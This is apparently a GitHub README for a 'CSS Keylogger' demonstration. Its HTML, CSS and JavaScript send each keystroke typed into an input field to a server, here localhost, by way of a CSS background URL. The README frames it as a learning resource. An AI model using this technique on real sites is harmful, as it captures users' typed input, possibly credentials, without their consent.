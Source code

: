 ## CSS Keylogger

This is just a simple **demostration** of how a website could keep track of user interaction via **CSS variables** and url selector values.

By using the **required** attribute for the input text, we can just use a **CSS selector** which validates wether the input text is present calling the url('serverURL') every keyup event.

Every time the user enters some value, the new url for the background is updated via js.

**Note: This code should be used as a learning resource and user tracking without its consent should be discouraged totally.**


## Demo
![](demo.gif)


## index.html

```
    <div>
        <input type="text" id="userText" name="userText" required />
    </div>
```

## main.css

```
:root{
    --keyLogURL: url('http://localhost:3000/user-input');
}


input:valid {
    background: var(--keyLogURL);
    color:green;
}

```

## Javascript ( No AJAX or HTTP request)

```
    // Changing the value of the CSS variable with the new text value
    const inputText = document.getElementById('userText');
    const endpoint = 'user-input';
    const cssVar = '--keyLogURL';
    inputText.addEventListener("keyup", e => {
        const value = e.target.value;
        const cssURL = getComputedStyle(document.documentElement)
            .getPropertyValue(cssVar);
        const cssURLSliced = cssURL.slice(0, cssURL.indexOf(endpoint)) + endpoint;
        const root = document.documentElement;
        root.style.setProperty(cssVar, `${cssURLSliced}?z=${value}`);
    });
```

## How to run the demo

### Install dependencies
```
$ git clone https://github.com/axelgalicia/css-tracking.git
$ npm install
$ npm start
```

Open the browser on http://localhost:3000/index.html and start typing.


Server will capture it.


*Author:* Axel Galicia

Date: May 12, 2019